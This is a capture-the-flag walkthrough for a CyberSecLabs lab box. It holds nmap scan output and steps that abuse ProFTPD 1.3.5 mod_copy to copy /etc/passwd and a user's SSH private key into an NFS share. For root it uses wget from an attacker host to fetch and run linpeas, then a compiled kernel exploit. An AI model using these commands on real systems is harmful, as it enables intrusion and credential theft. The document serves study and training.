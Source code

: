 #CyberSecLabs : 172.31.1.22

Full Nmap Scan :

```zsh
nmap -sS -p- -r -v -T4 -Pn 172.31.1.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 09:22 EDT
Initiating Parallel DNS resolution of 1 host. at 09:22
Completed Parallel DNS resolution of 1 host. at 09:22, 0.01s elapsed
Initiating SYN Stealth Scan at 09:22
Scanning 172.31.1.22 [65535 ports]
Discovered open port 21/tcp on 172.31.1.22
Discovered open port 22/tcp on 172.31.1.22
Discovered open port 111/tcp on 172.31.1.22
Discovered open port 2049/tcp on 172.31.1.22
Increasing send delay for 172.31.1.22 from 0 to 5 due to 1120 out of 2799 dropped probes since last increase.
SYN Stealth Scan Timing: About 4.81% done; ETC: 09:33 (0:10:13 remaining)
SYN Stealth Scan Timing: About 8.51% done; ETC: 09:34 (0:10:56 remaining)
SYN Stealth Scan Timing: About 29.25% done; ETC: 09:36 (0:10:19 remaining)
SYN Stealth Scan Timing: About 33.45% done; ETC: 09:36 (0:09:29 remaining)
SYN Stealth Scan Timing: About 39.33% done; ETC: 09:36 (0:08:44 remaining)
SYN Stealth Scan Timing: About 45.26% done; ETC: 09:36 (0:08:00 remaining)
SYN Stealth Scan Timing: About 50.01% done; ETC: 09:36 (0:07:16 remaining)
Discovered open port 33837/tcp on 172.31.1.22
SYN Stealth Scan Timing: About 55.35% done; ETC: 09:36 (0:06:31 remaining)
Discovered open port 36807/tcp on 172.31.1.22
Discovered open port 36900/tcp on 172.31.1.22
Discovered open port 38139/tcp on 172.31.1.22
SYN Stealth Scan Timing: About 60.95% done; ETC: 09:37 (0:05:45 remaining)
Discovered open port 41668/tcp on 172.31.1.22
SYN Stealth Scan Timing: About 66.17% done; ETC: 09:37 (0:05:00 remaining)
SYN Stealth Scan Timing: About 70.93% done; ETC: 09:36 (0:04:15 remaining)
SYN Stealth Scan Timing: About 76.32% done; ETC: 09:37 (0:03:29 remaining)
SYN Stealth Scan Timing: About 81.53% done; ETC: 09:37 (0:02:45 remaining)
SYN Stealth Scan Timing: About 86.73% done; ETC: 09:37 (0:01:59 remaining)
SYN Stealth Scan Timing: About 91.85% done; ETC: 09:37 (0:01:14 remaining)
Completed SYN Stealth Scan at 09:37, 920.18s elapsed (65535 total ports)
Nmap scan report for 172.31.1.22
Host is up (0.19s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
111/tcp   open  rpcbind
2049/tcp  open  nfs
33837/tcp open  unknown
36807/tcp open  unknown
36900/tcp open  unknown
38139/tcp open  unknown
41668/tcp open  unknown

Read data files from: /usr/bin/../share/nmap

```
Service Scan :

```zsh
nmap -sC -sV -p 21,22,111,2049,33837,36807,38139,41668 172.31.1.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 09:58 EDT
Nmap scan report for 172.31.1.22
Host is up (0.16s latency).

PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      ProFTPD 1.3.5
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:6b:ae:92:45:a3:2d:d6:45:1c:ad:4f:37:23:4d:3b (DSA)
|   2048 24:4a:81:08:4b:cc:bb:a7:c9:da:3b:17:39:ad:a0:61 (RSA)
|_  256 0c:2b:07:32:18:8c:1a:86:e3:fa:c4:09:de:f5:0f:a0 (ECDSA)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33837/tcp   mountd
|   100005  1,2,3      34883/udp   mountd
|   100005  1,2,3      37514/tcp6  mountd
|   100005  1,2,3      42096/udp6  mountd
|   100021  1,3,4      38139/tcp   nlockmgr
|   100021  1,3,4      40709/tcp6  nlockmgr
|   100021  1,3,4      41784/udp6  nlockmgr
|   100021  1,3,4      52816/udp   nlockmgr
|   100024  1          35320/udp   status
|   100024  1          38767/udp6  status
|   100024  1          41668/tcp   status
|   100024  1          53959/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  2-3 (RPC #100227)
33837/tcp open  mountd   1-3 (RPC #100005)
36807/tcp open  mountd   1-3 (RPC #100005)
38139/tcp open  nlockmgr 1-4 (RPC #100021)
41668/tcp open  status   1 (RPC #100024)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.72 seconds
```

You can google about the ```ProFTPD 1.3.5``` which is vulnerable to modcopy vulnerability. 

What happens is you can login into ftp with anonymous creds, it will show failed but you still get the ftp prompt and can put commands

You can searchsploit and read it ```linux/remote/36742.txt``` 
After reading the exploit I can understand that I can copy files from one place to another. But how do I access the files ? Well we have an nsfshare (port 2049) which can be used. 

To view what share is available to mount:

```zsh
showmount -e 172.31.1.22
```
Now to mount the share make a new directory in /mnt and try this:

```zsh
mount -t nfs  172.31.1.22:/var/nfsbackups/ /mnt/outdated -o nolock
```
You will see there are 3 usernames and they are empty.

Unmount it : ```umount /mnt/cslshare```

In the ftp prompt type this ```cpfr /etc/passwd``` and copy it to ```cpto /var/nsfbackups/passwd```

Now remount and read the file. You can see the username is daniel. You can unmount it again.

Now we can steal .ssh file of daniel using the same method used above 

In the ftp prompt:
```cpfr /home/daniel/.ssh/id_rsa``` then copy transfer to the share ```cpto /var/nsfbackups/id_rsa```

Now remount the share and copy the file to in your working directory. Give it proper permissions : ```chmod 400 id_rsa``` and then try to ssh

```zsh
ssh -i id_rsa daniel@172.31.1.22
```

Now you will have a user shell as daniel. 

For privesc, simply upload linpeas.sh using wget.

Host a python server where linpeas in located on your PC

```zsh
python -m SimpleHTTPServer 8000
```
Now on the ssh shell go the /tmp/ directory and ```wget http://10.10.0.40/linpeas.sh``` and ```bash linpeas.sh```

You will notice it will highlight the kernel. Simply google for that kernel version exploit and you will land on this :
https://www.exploit-db.com/exploits/37292

Simply compile the code using ```gcc ofs.c -o ofs``` on your machine and transfer it to the target and then ```chmod 777 ofs```for proper permissions ```./ofs``` which will spawn a root shell.